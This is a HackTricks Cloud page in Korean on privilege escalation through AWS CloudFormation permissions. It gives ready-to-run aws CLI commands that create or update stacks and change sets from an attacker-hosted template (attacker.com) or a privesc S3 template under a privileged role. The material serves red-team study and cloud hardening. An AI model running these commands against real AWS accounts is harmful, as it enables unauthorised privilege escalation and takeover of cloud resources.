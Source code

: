 # AWS - Cloudformation Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

cloudformation에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

이 권한을 가진 공격자는 **CloudFormation 스택**을 자신이 호스팅하는 서버에 있는 사용자 정의 템플릿으로 작성하여 **지정된 역할의 권한으로 작업을 실행할 수 있습니다:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
다음 페이지에는 추가 권한 **`cloudformation:DescribeStacks`**가 있는 **익스플로잇 예제**가 있습니다:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**잠재적 영향:** 지정된 cloudformation 서비스 역할로의 권한 상승.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

이 경우 기존 cloudformation 스택을 **악용하여** 업데이트하고 이전 시나리오처럼 권한을 상승시킬 수 있습니다:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 권한은 **스택에 대한 `UpdateStack` 권한을 부여**하고 공격을 수행하는 데 사용할 수 있습니다.

**잠재적 영향:** 지정된 cloudformation 서비스 역할에 대한 권한 상승.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

이 권한이 있지만 **`iam:PassRole`이 없는 경우**에도 **사용된 스택을 업데이트**하고 **이미 연결된 IAM 역할을 악용**할 수 있습니다. 이전 섹션에서 exploit 예제를 확인하세요 (업데이트에서 역할을 지정하지 마세요).

`cloudformation:SetStackPolicy` 권한은 **스택에 대한 `UpdateStack` 권한을 부여**하고 공격을 수행하는 데 사용할 수 있습니다.

**잠재적 영향:** 이미 연결된 cloudformation 서비스 역할에 대한 권한 상승.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

역할을 **전달하고 ChangeSet을 생성 및 실행**할 수 있는 권한이 있는 공격자는 **새 cloudformation 스택을 생성/업데이트하고 cloudformation 서비스 역할을 악용**할 수 있습니다. CreateStack 또는 UpdateStack과 마찬가지입니다.

다음 exploit는 **ChangeSet 권한을 사용하여 스택을 생성하는**[ **CreateStack 변형**](./#iam-passrole-cloudformation-createstack)입니다.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 권한을 사용하여 **스택에 대한 `ChangeSet` 권한을 부여**하고 공격을 수행할 수 있습니다.

**잠재적 영향:** cloudformation 서비스 역할에 대한 권한 상승.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

이 방법은 **IAM 역할**을 전달하지 않고 이전 방법과 유사하므로, 이미 연결된 역할을 **악용**할 수 있으며, 매개변수만 수정하면 됩니다:
```
--change-set-type UPDATE
```
**잠재적 영향:** 이미 연결된 cloudformation 서비스 역할로의 권한 상승.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

공격자는 이러한 권한을 악용하여 StackSets를 생성/업데이트하여 임의의 cloudformation 역할을 악용할 수 있습니다.

**잠재적 영향:** cloudformation 서비스 역할로의 권한 상승.

### `cloudformation:UpdateStackSet`

공격자는 passRole 권한 없이 이 권한을 악용하여 StackSets를 업데이트하고 연결된 cloudformation 역할을 악용할 수 있습니다.

**잠재적 영향:** 연결된 cloudformation 역할로의 권한 상승.

## 참조

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
